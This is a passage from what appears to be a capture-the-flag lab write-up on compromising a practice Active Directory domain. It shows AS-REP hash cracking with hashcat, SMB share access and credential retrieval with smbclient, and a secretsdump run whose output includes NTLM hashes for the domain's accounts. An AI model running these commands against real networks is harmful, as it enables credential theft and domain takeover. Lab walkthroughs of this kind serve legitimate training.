 
We can then use the [provided password list](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt) as our wordlist and specify the hash format and our hash file to begin cracking:

`hashcat -m18200 tgt.txt passwordlist.txt`


```bash
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:eadff12593f17a04b6f89c921ff6506e$8c5d81b69052c73d471d8a5d7e76cc1bc195dbb6c13c7b8d4e4e4175f023037fa7406a0f124e46144a4705491acc6d896ed2ee9ab65b86ef5264cb9ec6fbedbac9dda26df85698cf5caba00d126f31e66b8b1d5d468922b3658af7f5eb505fd9d314110597128b8746676adea63e62652ea1ac3dc777e6cd22afe740971f65bb1a3f20205845239fda9c71e90f5e8d838c26a8164023d45f58625b9eca53048695be9ea16e0788d0974f894c30199fb851a37c7ab7e7b540afa3a214f95cbd9dfb384c6049e6843e49a04eace680a8dcee89dbdc189707f616e7485fbe541955e057ef43a16b1ea8d4d827649278ead60e3e:management2005
```

And we've cracked the hash: `management2005`!
# Enumeration: Back to Basics

Now that we have the password, we can enumerate the shares that the `svc-admin` user has access to:

`smbclient -L <INSERT IP ADDRESS> -U svc-admin`

![](https://i.imgur.com/Un7wvhk.png)

We see 6 shares, the most interesting being `backup`! We can login and view the contents of this share via: `smbclient \\\\<INSERT IP ADDRESS>\\backup -U svc-admin`:

![](https://i.imgur.com/h4UHfCc.png)

We can download this file by running `mget backup_credentials`.

Reading the contents of this file, we see it's base64 encoded string:

![](https://i.imgur.com/YY5O1Rn.png)

We now have the credentials for the `backup` account!
# Domain Privilege Escalation: Elevating Privileges within the Domain

Since we have the `backup` account credentials, we now have unique permissions since it's the backup account for the Domain Controller (DC)! This account allows all AD changes to be synced with it, including *password hashes*!

So basically we're able to access *password hashes* from the DC using the `backup` account credentials! We can do so using `secretsdump.py` which is another tool from the  [Impacket library](https://github.com/fortra/impacket):

`impacket-secretsdump spookysec.local/backup:backup2517860@<INSERT IP ADDRESS>`

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
```